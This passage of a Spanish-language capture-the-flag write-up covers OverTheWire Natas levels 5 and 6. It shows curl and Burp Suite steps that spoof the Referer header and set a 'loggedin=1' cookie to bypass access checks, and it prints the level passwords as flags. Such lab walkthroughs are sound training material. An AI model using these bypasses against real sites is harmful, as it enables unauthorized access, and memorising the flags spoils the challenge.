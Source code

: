 > Flag: QryZXc2e0zahULdHrtHxzyYkj59kUxLQ

## Level 5

```html
Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/" 

```

Opción 1: Curl

```shell
curl -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ -H "Referer: http://natas5.natas.labs.overthewire.org/" http://natas4.natas.labs.overthewire.org/

# -u natas4:tu_contraseña: Especifica el nombre de usuario y contraseña.
# -H "Referer: http://natas5.natas.labs.overthewire.org/": Añade la cabecera `Referer` con el valor requerido.
```

Opción 2 : Burpsuite

```python
"Abrimos Burpsuite, capturamos petición y cambiamos el Refer:"

De:
Referer: http://natas4.natas.labs.overthewire.org/

A:
Referer: http://natas5.natas.labs.overthewire.org/
```

Output:

```python
"Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK"
```

> Flag: 0n35PkggAPm2zbEpOU802c0x0Msn1ToK

## Level 6

```html
Access disallowed. You are not logged in
```

Opción 1: Curl

```shell
curl -D - -u natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK http://natas5.natas.labs.overthewire.org/index.php

Output: 
HTTP/1.1 200 OK
Date: Thu, 31 Oct 2024 23:06:32 GMT
Server: Apache/2.4.58 (Ubuntu)
Set-Cookie: loggedin=0
Vary: Accept-Encoding
Content-Length: 855
Content-Type: text/html; charset=UTF-8

curl -b "loggedin=1" -u natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK http://natas5.natas.labs.overthewire.org/index.php
# -b : especifica un valor determinado a la cookie
# Para mas valores: "nombre_cookie1=valor_modificado1; nombre_cookie2=valor_modificado2"

Output: 

```